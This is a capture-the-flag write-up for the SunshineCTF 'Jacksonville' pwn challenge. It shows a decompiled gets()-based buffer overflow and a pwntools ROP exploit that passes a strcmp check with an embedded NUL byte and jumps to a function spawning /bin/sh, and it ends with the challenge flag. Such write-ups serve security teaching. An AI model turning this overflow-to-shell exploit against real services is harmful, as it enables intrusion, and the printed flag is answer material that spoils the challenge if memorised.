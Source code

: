 # Jacksonville

```
The Jacksonville Jaguars are having a rough season, let's cheer them on!!

    jacksonville

nc chal.sunshinectf.games 25602 
```

Decompile in IDA:

```c
int vuln()
{
  int result; // eax
  _QWORD v1[12]; // [rsp+0h] [rbp-60h] BYREF

  memset(v1, 0, 89);
  printf("What's the best Florida football team?\n> ");
  gets(v1);
  result = strcmp((const char *)v1 + 6, "Jaguars");
  if ( result )
  {
    puts("WRONG ANSWER!!");
    exit(1);
  }
  return result;
}
int win()
{
  return system("/bin/sh");
}
```

Although there is a `strcmp` check, we can insert `NUL` characters within the middle for `gets`. So we can employ the ROP attack while satisfying the check:

```python
from pwn import *

elf = ELF("./jacksonville")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = remote("chal.sunshinectf.games", 25602)
# p = process(["./jacksonville"])
# gdb.attach(p)
# pause()
p.recvuntil(b"> ")
ret_gadget = 0x40101A # ensure stack is aligned
p.sendline(
    b"A" * 6 + b"Jaguars\0" + b"A" * 90 + p64(ret_gadget) + p64(elf.symbols["win"])
)
p.interactive()
```

Flag: `sun{It4chI_b3ats_0b!to_nO_d!ff}`.